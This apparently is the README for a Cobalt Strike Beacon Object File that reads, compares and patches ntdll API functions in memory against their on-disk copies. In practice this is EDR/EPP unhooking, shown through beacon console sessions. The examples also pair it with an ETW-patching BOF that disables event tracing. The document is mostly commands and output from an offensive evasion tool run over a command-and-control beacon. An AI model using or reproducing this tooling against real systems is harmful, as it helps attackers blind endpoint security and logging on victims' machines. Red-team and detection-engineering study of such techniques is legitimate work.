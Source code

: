 ## API Function Utility BOF

Beacon object file to:
	- Read bytes of loaded module API function
	- Read relevant on-disk DLL and compare functions to identify differencies (e.g. EPP/EDR hooking)
	- Patch functions with the on-disk copy (i.e. API unhooking)

Credit goes to @spotheplanet for the Dll parsing technique: https://www.ired.team/offensive-security/defense-evasion/retrieving-ntdll-syscall-stubs-at-run-time

## Compile

```
make all
```

## Usage

Aggressor script included with the following commands:
	- `read_function` - Output the first 8 bytes of the specified function(s) and output the bytes to the console.
	- `check_function` - Parse the on-disk DLL containing the specified function(s) and confirm the first 8 bytes match. 
	- `patch_function` - As above, but patching the loaded function(s) with the on-disk bytes.

All three utilities can take multiple functions within the same DLL (see `read_function` usage below, as an example)

> NOTE: `check_function` and `patch_function` will only read on-disk DLL once when multiple functions are specified.

### Read Function

```
beacon> read_function ntdll.dll NtCreateProcess
[*] Running API Function Utility (@ajpc500)
[+] host called home, sent: 5116 bytes
[+] received output:
[*] Reading 8 bytes of NtCreateProcess function in ntdll.dll
[+] received output:
b8 b3 0
0 0 ba 70 71


beacon> read_function ntdll.dll NtCreateProcess,NtCreateFile
[*] Running API Function Utility (@ajpc500)
[+] host called home, sent: 5129 bytes
[+] received output:
[*] Reading 8 bytes of NtCreateProcess function in ntdll.dll
[+] received output:
b8 b3 0
0 0 ba 70 71
[+] received output:
[*] Reading 8 bytes of NtCreateFile function in ntdll.dll
[+] received output:
b8 55 0
0 0 ba 70 71
```

### Check Function

Demonstrating with ETW BOF: https://github.com/ajpc500/BOFs/tree/main/ETW

```
beacon> check_function ntdll.dll EtwEventWrite
[*] Running API Function Utility (@ajpc500)
[+] host called home, sent: 5558 bytes
[+] received output:
[+] EtwEventWrite function matches on-disk.

beacon> etw stop
[*] Running ETW patching BOF (@ajpc500)
[+] host called home, sent: 1439 bytes
[+] received output:
Action: stop
Working with 64-bit.
[+] received output:
c3

beacon> check_function ntdll.dll EtwEventWrite
[*] Running API Function Utility (@ajpc500)
[+] host called home, sent: 4727 bytes
[+] received output:
[*] Comparing 8 bytes of EtwEventWrite function(s) in ntdll.dll with on-disk version
[+] received output:
[!] EtwEventWrite function doesn't match on-disk.
[+] received output:
Loaded Module: c3 8b dc 48 83 ec 58 4d
Ondisk Module: 4c 8b dc 48 83 ec 58 4d
```

### Patch Function
```
beacon> check_function ntdll.dll EtwEventWrite
[*] Running API Function Utility (@ajpc500)
[+] host called home, sent: 4727 bytes
[+] received output:
[*] Comparing 8 bytes of EtwEventWrite function(s) in ntdll.dll with on-disk version
[+] received output:
[!] EtwEventWrite function doesn't match on-disk.
[+] received output:
Loaded Module: c3 8b dc 48 83 ec 58 4d
Ondisk Module: 4c 8b dc 48 83 ec 58 4d

beacon> patch_function ntdll.dll EtwEventWrite
[*] Running API Function Utility (@ajpc500)
[+] host called home, sent: 5558 bytes
[+] received output:
[*] Patching 8 bytes of EtwEventWrite function in ntdll.dll with on-disk version
[+] received output:
[+] Patched EtwEventWrite function successfully.

beacon> check_function ntdll.dll EtwEventWrite
[*] Running API Function Utility (@ajpc500)
[+] host called home, sent: 4727 bytes
[+] received output:
[*] Comparing 8 bytes of EtwEventWrite function(s) in ntdll.dll with on-disk version
[+] received output:
[+] EtwEventWrite function matches on-disk.
```
